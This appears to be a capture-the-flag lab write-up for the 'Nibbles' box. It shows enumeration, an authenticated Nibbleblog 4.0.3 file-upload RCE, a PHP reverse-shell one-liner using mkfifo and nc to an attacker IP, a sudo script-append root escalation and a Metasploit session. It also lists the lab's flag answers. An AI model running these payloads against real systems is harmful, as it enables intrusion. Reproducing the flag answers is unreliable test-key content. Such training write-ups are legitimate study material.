




# Nibbles
For our purposes, let us walk through the box Nibbles, an easy-rated Linux box that showcases common enumeration tactics, basic web application exploitation, and a file-related misconfiguration to escalate privileges.

## Enumeration
Commands used in the walkthrough:

`nmap` enumeration:
```
nmap -sV --open -oA nibbles_initial_scan 10.129.42.190
nmap -sC -p 22,80 -oA nibbles_script_scan 10.129.42.190
nmap -sV --script=http-enum -oA nibbles_nmap_http_enum 10.129.42.190
```

Show ports that `nmap` scans for:
```
nmap -v -oG -
```

Banner grabbing:
```
nc -nv 10.129.42.190 22
nc -nv 10.129.42.190 80
```

### Questions
Answer the question(s) below to complete this Section and earn cubes!

Run an nmap script scan on the target. What is the Apache version running on the server? (answer format: X.X.XX)
```
> 2.4.18
```

```
┌──(kali㉿kali)-[~]
└─$ nmap -sV -sC 10.129.171.195
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-20 06:07 EDT
Nmap scan report for 10.129.171.195
Host is up (0.033s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 31.87 seconds
                                                                                                                                                           
┌──(kali㉿kali)-[~]
└─$ 
```

## Web Footprinting
Commands used in the walkthrough:

`curl`:
```
curl http://10.129.42.190
curl http://10.129.42.190/nibbleblog/README
curl -s http://10.129.42.190/nibbleblog/content/private/users.xml | xmllint --format -
curl -s http://10.129.42.190/nibbleblog/content/private/config.xml | xmllint --format -
```

`whatweb`:
```
whatweb 10.129.42.190
whatweb http://10.129.42.190/nibbleblog
```

`gobuster`:
```
gobuster dir -u http://10.129.42.190/nibbleblog/ --wordlist /usr/share/dirb/wordlists/common.txt
```

### My approach
If we access the website we find the information, that we have to change to the directory `/nibbleblog`:
```
┌──(kali㉿kali)-[~]
└─$ curl http://10.129.105.157
<b>Hello world!</b>

<!-- /nibbleblog/ directory. Nothing interesting here! -->

┌──(kali㉿kali)-[~]
└─$ 
```

Nibbleblog is a blogging system. If we access the directory root we get the follwoing main page:


Over here we can't find something interesting.

Enumerating the directories reveals the following interesting paths:
```
┌──(kali㉿kali)-[~]
└─$ feroxbuster --url http://10.129.105.157/nibbleblog/ --depth 2 --wordlist /usr/share/seclists/Discovery/Web-Content/common.txt

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.10.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://10.129.105.157/nibbleblog/
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/common.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.10.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 2
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
403      GET       11l       32w        -c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
404      GET        9l       32w        -c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
404      GET        9l       34w      311c http://10.129.105.157/nibbleblog/Documents%20and%20Settings
404      GET        9l       33w      302c http://10.129.105.157/nibbleblog/Program%20Files
200      GET       63l      643w     4628c http://10.129.105.157/nibbleblog/README
301      GET        9l       28w      327c http://10.129.105.157/nibbleblog/admin => http://10.129.105.157/nibbleblog/admin/
301      GET        9l       28w      329c http://10.129.105.157/nibbleblog/content => http://10.129.105.157/nibbleblog/content/
200      GET       61l      168w     2987c http://10.129.105.157/nibbleblog/
200      GET       61l      168w     2987c http://10.129.105.157/nibbleblog/index.php
301      GET        9l       28w      331c http://10.129.105.157/nibbleblog/languages => http://10.129.105.157/nibbleblog/languages/
200      GET       27l       96w     1401c http://10.129.105.157/nibbleblog/admin.php
200      GET      287l     1754w    17569c http://10.129.105.157/nibbleblog/languages/nl_NL.bit
200      GET      288l     2061w    18787c http://10.129.105.157/nibbleblog/languages/vi_VI.bit
200      GET      305l     1646w    25081c http://10.129.105.157/nibbleblog/languages/ru_RU.bit
200      GET      326l     1740w    17135c http://10.129.105.157/nibbleblog/languages/en_US.bit
200      GET      288l     1942w    19170c http://10.129.105.157/nibbleblog/languages/fr_FR.bit
200      GET      288l     1575w    17763c http://10.129.105.157/nibbleblog/languages/de_DE.bit
200      GET      288l     1748w    17998c http://10.129.105.157/nibbleblog/languages/pt_PT.bit
200      GET      288l     1797w    18351c http://10.129.105.157/nibbleblog/languages/it_IT.bit
200      GET      288l      905w    16495c http://10.129.105.157/nibbleblog/languages/zh_CN.bit
200      GET      288l     1645w    18190c http://10.129.105.157/nibbleblog/languages/pl_PL.bit
200      GET      288l     1810w    18341c http://10.129.105.157/nibbleblog/languages/es_ES.bit
200      GET      288l      921w    16627c http://10.129.105.157/nibbleblog/languages/zh_TW.bit
301      GET        9l       28w      329c http://10.129.105.157/nibbleblog/plugins => http://10.129.105.157/nibbleblog/plugins/
404      GET        9l       33w      301c http://10.129.105.157/nibbleblog/reports%20list
301      GET        9l       28w      328c http://10.129.105.157/nibbleblog/themes => http://10.129.105.157/nibbleblog/themes/
[####################] - 7s      4817/4817    0s      found:24      errors:1      
[####################] - 7s      4724/4724    716/s   http://10.129.105.157/nibbleblog/ 
[####################] - 4s      4724/4724    1129/s  http://10.129.105.157/nibbleblog/admin/ => Directory listing
[####################] - 0s      4724/4724    67486/s http://10.129.105.157/nibbleblog/content/ => Directory listing
[####################] - 0s      4724/4724    9987/s  http://10.129.105.157/nibbleblog/languages/ => Directory listing
[####################] - 0s      4724/4724    64712/s http://10.129.105.157/nibbleblog/plugins/ => Directory listing
[####################] - 0s      4724/4724    67486/s http://10.129.105.157/nibbleblog/themes/ => Directory listing                                                                                                                                                                                                   
┌──(kali㉿kali)-[~]
└─$ 
```

Interesting are the folders `admin/` and `content/`, the `admin.php` file and the `README` document.

The `README` file reveals the version of the application:
```
┌──(kali㉿kali)-[~]
└─$ curl http://10.129.105.157/nibbleblog/README
====== Nibbleblog ======
Version: v4.0.3
Codename: Coffee
Release date: 2014-04-01

[...]
```

A quick `searchsploit` for this version shows that there is a file upload vulnerability:
```
┌──(kali㉿kali)-[~]
└─$ searchsploit nibble
------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                           |  Path
------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Nibbleblog 3 - Multiple SQL Injections                                                                                   | php/webapps/35865.txt
Nibbleblog 4.0.3 - Arbitrary File Upload (Metasploit)                                                                    | php/remote/38489.rb
------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
                                                                                                                                                           
┌──(kali㉿kali)-[~]
└─$ 
```

The corresponding CVE is [2015-6967](https://nvd.nist.gov/vuln/detail/CVE-2015-6967). From the description of the vulnerability, we can see that the admin user must be authorized to use it. So we have to find a login.

`admin.php` show the login prompt for the admin user:


If we navigate through the enumerated directories and file, we find the `content/private/users.xml`:
```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<users>
  <user username="admin">
    <id type="integer">0</id>
    <session_fail_count type="integer">0</session_fail_count>
    <session_date type="integer">1514544131</session_date>
  </user>
  <blacklist type="string" ip="10.10.10.1">
    <date type="integer">1512964659</date>
    <fail_count type="integer">1</fail_count>
  </blacklist>
  <blacklist type="string" ip="10.10.14.93">
    <date type="integer">1697801174</date>
    <fail_count type="integer">2</fail_count>
  </blacklist>
</users>
```

So we have probably a user called `admin`. As well there is some kind of blacklisting for failed logins. So brute force is probably not an option. 

Investigating further through the files we notice that the application is called `nibbles`:
```
┌──(kali㉿kali)-[~]
└─$ curl -s http://10.129.105.157/nibbleblog/content/private/config.xml | xmllint --format - | head
<?xml version="1.0" encoding="utf-8" standalone="yes"?>
<config>
  <name type="string">Nibbles</name>
  <slogan type="string">Yum yum</slogan>
  <footer type="string">Powered by Nibbleblog</footer>
  <advanced_post_options type="integer">0</advanced_post_options>
  <url type="string">http://10.10.10.134/nibbleblog/</url>
  <path type="string">/nibbleblog/</path>
  <items_rss type="integer">4</items_rss>
  <items_page type="integer">6</items_page>
                                                                                                                                                           
┌──(kali㉿kali)-[~]
└─$ 
```

At other points this names is used as well. If we give this a try as password was log successful into the admin site:


If we have the ability to brute force, we could use a tool like [CeWL](https://github.com/digininja/CeWL) to generate a wordlist by crawling through the website:
```
┌──(kali㉿kali)-[~]
└─$ cewl http://10.129.105.157/nibbleblog/
CeWL 6.1 (Max Length) Robin Wood (robin@digi.ninja) (https://digi.ninja/)
Nibbles
Yum
yum
Hello
world
posts
Home
Uncategorised
Music
Videos
HEADER
MAIN
PLUGINS
Categories
Latest
image
Pages
VIEW
There
are
FOOTER
Atom
Top
Powered
Nibbleblog
ATOM
Feed
http
nibbleblog
feed
php
                                                                                                                                                           
┌──(kali㉿kali)-[~]
└─$ 
```

## Initial Foothold
Now that we are logged in to the admin portal, we need to attempt to turn this access into code execution and ultimately gain reverse shell access to the webserver. We know a Metasploit module will likely work for this, but let us enumerate the admin portal for other avenues of attack.

If we take a look at the installed plugins, we can find one called "My image". A plugin that allows us to upload pictures to the blog.


Uploading files can always be crucial.

Trying to upload a small payload:
```php
<?php system('id'); ?>
```

In a file called `payload.php` throws some error on the website. That's a good sign. The images are stored under the path `nibbleblog/content/private/plugins/my_image/`. That can be enumerated while searching through the directories of the webserver.

In here we also find our uploaded file. It has been renamed to `image.php`. If we try to access it we can see that we got our RCE:
```
┌──(kali㉿kali)-[~/Desktop/hackthebox/htb_academy]
└─$ curl http://10.129.179.77/nibbleblog/content/private/plugins/my_image/image.php
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
                                                                                                                                                           
┌──(kali㉿kali)-[~/Desktop/hackthebox/htb_academy]
└─$ 
```

The only thing we have to do now is to upload a reverse shell to the system. For example the following:
```php
<?php system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.15.14 8081 >/tmp/f'); ?>
```

We can upload the file to the server and start a listener on our attacking machine. And now if we access the file again we got our shell:
```
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 8081                                                                                                                                    130 ⨯
Listening on 0.0.0.0 8081
Connection received on 10.129.179.77 46308
sh: 0: can't access tty; job control turned off
$ ls -al 
total 16
drwxr-xr-x 2 nibbler nibbler 4096 Oct 25 13:43 .
drwxr-xr-x 7 nibbler nibbler 4096 Dec 10  2017 ..
-rw-r--r-- 1 nibbler nibbler  250 Oct 25 13:43 db.xml
-rw-r--r-- 1 nibbler nibbler   94 Oct 25 13:43 image.php
$ 
```

As first, we can stabilize our shell:
```
$ python --version
sh: 2: python: not found
$ python3 --version
Python 3.5.2
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
nibbler@Nibbles:/var/www/html/nibbleblog/content/private/plugins/my_image$ ^Z
zsh: suspended  nc -lnvp 8081
                                                                                                                                                           
┌──(kali㉿kali)-[~]
└─$ stty raw -echo; fg                                                                                                                           148 ⨯ 1 ⚙
[1]  + continued  nc -lnvp 8081

nibbler@Nibbles:/var/www/html/nibbleblog/content/private/plugins/my_image$ 
nibbler@Nibbles:/var/www/html/nibbleblog/content/private/plugins/my_image$ export TERM=xterm-256color  
nibbler@Nibbles:/var/www/html/nibbleblog/content/private/plugins/my_image$ stty rows 83 columns 155
nibbler@Nibbles:/var/www/html/nibbleblog/content/private/plugins/my_image$ 
```

### Questions
Answer the question(s) below to complete this Section and earn cubes!

Gain a foothold on the target and submit the user.txt flag
```
> 79c03865431abf47b90ef24b9695e148
```

We find the flag in the users home directory:
```
nibbler@Nibbles:/var/www/html/nibbleblog/content/private/plugins/my_image$ ls -al /home
total 12
drwxr-xr-x  3 root    root    4096 Dec 10  2017 .
drwxr-xr-x 23 root    root    4096 May 24  2021 ..
drwxr-xr-x  3 nibbler nibbler 4096 Mar 12  2021 nibbler
nibbler@Nibbles:/var/www/html/nibbleblog/content/private/plugins/my_image$ cd /home/nibbler/
nibbler@Nibbles:/home/nibbler$ ls -al 
total 20
drwxr-xr-x 3 nibbler nibbler 4096 Mar 12  2021 .
drwxr-xr-x 3 root    root    4096 Dec 10  2017 ..
-rw------- 1 nibbler nibbler    0 Dec 29  2017 .bash_history
drwxrwxr-x 2 nibbler nibbler 4096 Dec 10  2017 .nano
-r-------- 1 nibbler nibbler 1855 Dec 10  2017 personal.zip
-r-------- 1 nibbler nibbler   33 Mar 12  2021 user.txt
nibbler@Nibbles:/home/nibbler$ cat user.txt 
79c03865431abf47b90ef24b9695e148
nibbler@Nibbles:/home/nibbler$ 
```

## Privilege Escalation
In the home directory is a zip archive called `personal.zip`:
```
nibbler@Nibbles:/home/nibbler$ unzip -l personal.zip 
Archive:  personal.zip
  Length      Date    Time    Name
---------  ---------- -----   ----
        0  2017-12-10 21:58   personal/
        0  2017-12-10 22:05   personal/stuff/
     4015  2015-05-08 03:17   personal/stuff/monitor.sh
---------                     -------
     4015                     3 files
nibbler@Nibbles:/home/nibbler$ 
```

The `monitor.sh` is a script that creates a server health monitoring:
```
nibbler@Nibbles:/home/nibbler/personal/stuff$ head -n 20 monitor.sh 
                  ####################################################################################################
                  #                                        Tecmint_monitor.sh                                        #
                  # Written for Tecmint.com for the post www.tecmint.com/linux-server-health-monitoring-script/      #
                  # If any bug, report us in the link below                                                          #
                  # Free to use/edit/distribute the code below by                                                    #
                  # giving proper credit to Tecmint.com and Author                                                   #
                  #                                                                                                  #
                  ####################################################################################################
#! /bin/bash
# unset any variable which system may be using

# clear the screen
clear

unset tecreset os architecture kernelrelease internalip externalip nameserver loadaverage

while getopts iv name
do
        case $name in
          i)iopt=1;;
nibbler@Nibbles:/home/nibbler/personal/stuff$ 
```

And we have full access rights to the file:
```
nibbler@Nibbles:/home/nibbler/personal/stuff$ ls -al monitor.sh 
-rwxrwxrwx 1 nibbler nibbler 4015 May  8  2015 monitor.sh
nibbler@Nibbles:/home/nibbler/personal/stuff$ 
```

But if we take a look into our `sudo` permissions we see the following:
```
nibbler@Nibbles:/home/nibbler/personal/stuff$ sudo -l
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
nibbler@Nibbles:/home/nibbler/personal/stuff$ 
```

We can run the script with `sudo` rights without the usage of a password. That means that we can put anything into that script and run it with root privileges.

To escalate our rights we can add the following content to the script:
```
nibbler@Nibbles:/home/nibbler/personal/stuff$ cp monitor.sh monitor.sh_bak
nibbler@Nibbles:/home/nibbler/personal/stuff$ echo "/bin/bash" >> monitor.sh
nibbler@Nibbles:/home/nibbler/personal/stuff$ tail monitor.sh

# Unset Variables
unset tecreset os architecture kernelrelease internalip externalip nameserver loadaverage

# Remove Temporary Files
rm /tmp/osrelease /tmp/who /tmp/ramcache /tmp/diskusage
}
fi
shift $(($OPTIND -1))
/bin/bash
nibbler@Nibbles:/home/nibbler/personal/stuff$ 
```

And execute it afterwards to become root:
```
nibbler@Nibbles:/home/nibbler/personal/stuff$ sudo ./monitor.sh


/home/nibbler/personal/stuff/monitor.sh: 26: /home/nibbler/personal/stuff/monitor.sh: [[: not found
/home/nibbler/personal/stuff/monitor.sh: 36: /home/nibbler/personal/stuff/monitor.sh: [[: not found
/home/nibbler/personal/stuff/monitor.sh: 43: /home/nibbler/personal/stuff/monitor.sh: [[: not found
root@Nibbles:/home/nibbler/personal/stuff# id
uid=0(root) gid=0(root) groups=0(root)
root@Nibbles:/home/nibbler/personal/stuff# 
```

### Questions
Answer the question(s) below to complete this Section and earn cubes!

Escalate privileges and submit the root.txt flag.
```
> de5e5d6619862a8aa5b9b212314e0cdd
```

We find the flag inside the `/root` directory:
```
root@Nibbles:/home/nibbler/personal/stuff# cd /root/
lroot@Nibbles:~# ls -al 
total 28
drwx------  4 root root 4096 Mar 12  2021 .
drwxr-xr-x 23 root root 4096 May 24  2021 ..
-rw-------  1 root root    0 Dec 29  2017 .bash_history
-rw-r--r--  1 root root 3106 Oct 22  2015 .bashrc
drwx------  2 root root 4096 Dec 10  2017 .cache
drwxr-xr-x  2 root root 4096 Dec 10  2017 .nano
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rwx------  1 root root   33 Mar 12  2021 root.txt
root@Nibbles:~# cat root.txt 
de5e5d6619862a8aa5b9b212314e0cdd
root@Nibbles:~# 
```

## Alternate User Method: Metasploit
Since we already found an exploit for Metasploit, we can also use it to get a shell on the system. The exploits works the same way as we did it by hand earlier.

The msf call can look like the following:
```
msf6 > search nibble

Matching Modules
================

   #  Name                                       Disclosure Date  Rank       Check  Description
   -  ----                                       ---------------  ----       -----  -----------
   0  exploit/multi/http/nibbleblog_file_upload  2015-09-01       excellent  Yes    Nibbleblog File Upload Vulnerability


Interact with a module by name or index. For example info 0, use 0 or use exploit/multi/http/nibbleblog_file_upload

msf6 > use 0
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf6 exploit(multi/http/nibbleblog_file_upload) > show options

Module options (exploit/multi/http/nibbleblog_file_upload):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD                    yes       The password to authenticate with
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The base path to the web application
   USERNAME                    yes       The username to authenticate with
   VHOST                       no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.14.93      yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Nibbleblog 4.0.3


View the full module info with the info, or info -d command.

msf6 exploit(multi/http/nibbleblog_file_upload) > set PASSWORD nibbles
PASSWORD => nibbles
msf6 exploit(multi/http/nibbleblog_file_upload) > set RHOSTS 10.129.105.157
RHOSTS => 10.129.105.157
msf6 exploit(multi/http/nibbleblog_file_upload) > set TARGETURI nibbleblog/
TARGETURI => nibbleblog/
msf6 exploit(multi/http/nibbleblog_file_upload) > set USERNAME admin
USERNAME => admin
msf6 exploit(multi/http/nibbleblog_file_upload) > run

[*] Started reverse TCP handler on 10.10.14.93:4444 
[*] Sending stage (39927 bytes) to 10.129.105.157
[+] Deleted image.php
[*] Meterpreter session 1 opened (10.10.14.93:4444 -> 10.129.105.157:60584) at 2023-10-20 09:02:55 -0400

meterpreter > 
meterpreter > ls
Listing: /var/www/html/nibbleblog/content/private/plugins/my_image
==================================================================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100644/rw-r--r--  258   fil   2023-10-20 09:02:54 -0400  db.xml

meterpreter > 
```